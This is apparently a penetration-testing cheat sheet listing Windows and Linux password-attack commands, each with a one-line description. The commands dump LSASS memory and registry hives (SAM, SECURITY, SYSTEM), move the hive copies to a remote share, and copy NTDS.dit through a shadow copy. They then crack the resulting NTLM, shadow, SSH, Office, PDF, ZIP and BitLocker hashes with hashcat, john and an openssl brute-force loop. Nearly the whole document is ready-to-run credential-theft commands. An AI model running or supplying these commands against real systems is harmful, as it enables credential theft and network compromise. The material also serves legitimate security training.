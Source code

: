 #### Windows Local Password Attacks

| **Command**        | **Description** |
| :--------------- | :----------------------------------------------------------- |
| `tasklist /svc`                                              | A command-line-based utility in Windows used to list running processes. |
| `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml` | Uses Windows command-line based utility findstr to search for the string "password" in many different file type. |
| `Get-Process lsass`                                          | A Powershell cmdlet is used to display process information. Using this with the LSASS process can be helpful when attempting to dump LSASS process memory from the command line. |
| `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full` | Uses rundll32 in Windows to create a LSASS memory dump file. This file can then be transferred to an attack box to extract credentials. |
| `pypykatz lsa minidump /path/to/lsassdumpfile`               | Uses Pypykatz to parse and attempt to extract credentials & password hashes from an LSASS process memory dump file. |
| `reg.exe save hklm\sam C:\sam.save`                          | Uses reg.exe in Windows to save a copy of a registry hive at a specified location on the file system. It can be used to make copies of any registry hive (i.e., hklm\sam, hklm\security, hklm\system). |
| `move sam.save \\<ip>\NameofFileShare`                  | Uses move in Windows to transfer a file to a specified file share over the network. |
| `python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL` | Uses Secretsdump.py to dump password hashes from the SAM database. |
| `vssadmin CREATE SHADOW /For=C:`                             | Uses Windows command line based tool vssadmin to create a volume shadow copy for `C:`. This can be used to make a copy of NTDS.dit safely. |
| `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit` | Uses Windows command line based tool copy to create a copy of NTDS.dit for a volume shadow copy of `C:`. |

#### Linux Local Password Attacks

| **Command**        | **Description** |
| :--------------- | :----------------------------------------------------------- |
| `hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt` | Uses Hashcat to crack NTLM hashes using a specified wordlist. |
| `hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show` | Uses Hashcat to attempt to crack a single NTLM hash and display the results in the terminal output. |
| `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes` | Uses unshadow to combine data from passwd.bak and shadow.bk into one single file to prepare for cracking. |
| `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked` | Uses Hashcat in conjunction with a wordlist to crack the unshadowed hashes and outputs the cracked hashes to a file called unshadowed.cracked. |
| ` hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`           | Uses Hashcat in conjunction with a word list to crack the md5 hashes in the md5-hashes.list file. |
| `hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked` | Uses Hashcat to crack the extracted BitLocker hashes using a wordlist and outputs the cracked hashes into a file called backup.cracked. |
| `ssh2john.pl SSH.private > ssh.hash`         | Runs Ssh2john.pl script to generate hashes for the SSH keys in the SSH.private file, then redirects the hashes to a file called ssh.hash. |
| `john ssh.hash --show`                                       | Uses John to attempt to crack the hashes in the ssh.hash file, then outputs the results in the terminal. |
| `office2john.py Protected.docx > protected-docx.hash`        | Runs Office2john.py against a protected .docx file and converts it to a hash stored in a file called protected-docx.hash. |
| `john --wordlist=rockyou.txt protected-docx.hash`            | Uses John in conjunction with the wordlist rockyou.txt to crack the hash protected-docx.hash. |
| `pdf2john.pl PDF.pdf > pdf.hash`                       | Runs Pdf2john.pl script to convert a pdf file to a pdf has to be cracked. |
| `john --wordlist=rockyou.txt pdf.hash`                       | Runs John in conjunction with a wordlist to crack a pdf hash. |
| `zip2john ZIP.zip > zip.hash`                                | Runs Zip2john against a zip file to generate a hash, then adds that hash to a file called zip.hash. |
| `john --wordlist=rockyou.txt zip.hash`                       | Uses John in conjunction with a wordlist to crack the hashes contained in zip.hash. |
| `bitlocker2john -i Backup.vhd > backup.hashes`               | Uses Bitlocker2john script to extract hashes from a VHD file and directs the output to a file called backup.hashes. |
| `file GZIP.gzip`                                             | Uses the Linux-based file tool to gather file format information. |
| `for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null \| tar xz;done` | Script that runs a for-loop to extract files from an archive. |
